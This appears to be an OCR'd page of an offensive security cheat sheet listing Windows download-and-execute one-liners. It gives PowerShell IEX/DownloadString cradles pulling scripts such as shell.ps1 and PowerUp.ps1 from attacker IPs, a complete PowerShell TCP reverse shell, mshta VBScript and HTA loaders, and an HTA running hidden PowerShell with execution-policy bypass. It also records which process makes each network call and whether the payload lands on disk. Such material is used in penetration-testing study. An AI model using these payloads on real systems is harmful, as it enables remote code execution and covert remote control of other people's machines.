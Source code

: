 ```bash
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.2.0.5/shell.ps1')|iex"
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
Start-Process -NoNewWindow powershell "IEX(New-Object Net.WebClient).downloadString('http://10.222.0.26:8000/ipst.ps1')"
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile
```

Process performing network call: **powershell.exe**  
Payload written on disk: **NO** \(_at least nowhere I could find using procmon !_\)

```bash
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```

Process performing network call: **svchost.exe**  
Payload written on disk: **WebDAV client local cache**

**One liner:**

```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

**Get more info about different Powershell Shells at the end of this document**

## Mshta

```bash
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

Process performing network call: **mshta.exe**  
Payload written on disk: **IE local cache**

```bash
mshta http://webserver/payload.hta
```

Process performing network call: **mshta.exe**  
Payload written on disk: **IE local cache**

```bash
mshta \\webdavserver\folder\payload.hta
```

Process performing network call: **svchost.exe**  
Payload written on disk: **WebDAV client local cache**

#### **Example of hta-psh reverse shell \(use hta to download and execute PS backdoor\)**

```markup
 <scRipt language="VBscRipT">CreateObject("WscrIpt.SheLL").Run "powershell -ep bypass -w hidden IEX (New-ObjEct System.Net.Webclient).DownloadString('http://119.91.129.12:8080/1.ps1')"</scRipt>
```
